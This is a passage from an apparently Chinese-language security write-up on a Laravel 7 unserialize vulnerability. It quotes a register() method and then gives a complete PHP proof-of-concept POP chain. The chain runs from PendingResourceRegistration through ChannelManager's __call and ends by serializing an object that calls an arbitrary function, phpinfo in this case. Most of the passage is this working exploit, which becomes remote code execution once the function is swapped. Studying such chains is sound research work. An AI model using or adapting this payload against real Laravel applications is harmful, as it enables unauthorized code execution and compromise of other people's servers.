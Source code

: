 ```
public function register()
{
        $this->registered = true;

        return $this->registrar->register(
            $this->name, $this->controller, $this->options
        );
    }

```

这些参数都可控, 那就行了, 触发__call() 函数就行, 剩余步骤就不详细分析了, 直接给出 POP 链 1 和 POP 链 2 的翻新

```
<?php

/*
# -*- coding: utf-8 -*-
# @filename: laravel 7 RCE poc3
# @author: Ricky
*/

namespace Illuminate\Routing{
    class PendingResourceRegistration{
        protected $registrar;
        protected $name;
        protected $controller;
        protected $options;
        public function __construct($registrar, $name, $controller, $options)
{
            $this->registrar = $registrar;
            $this->name = $name;
            $this->controller = $controller;
            $this->options = $options;
        }
    }
}

namespace Illuminate\Notifications
{
    class ChannelManager
    {
        protected $container;
        protected $defaultChannel;
        protected $customCreators;

        function __construct($function, $parameter)
{
            $this->container = $parameter;
            $this->customCreators = ['x' => $function];
            $this->defaultChannel = 'x';
        }
    }
}

namespace {

    use Illuminate\Notifications\ChannelManager;
    use Illuminate\Routing\PendingResourceRegistration;

    $b = new ChannelManager('phpinfo', '-1');
    $a = new PendingResourceRegistration($b, 'ricky', 'ricky', 'ricky');
    echo urlencode(serialize($a));
}
```
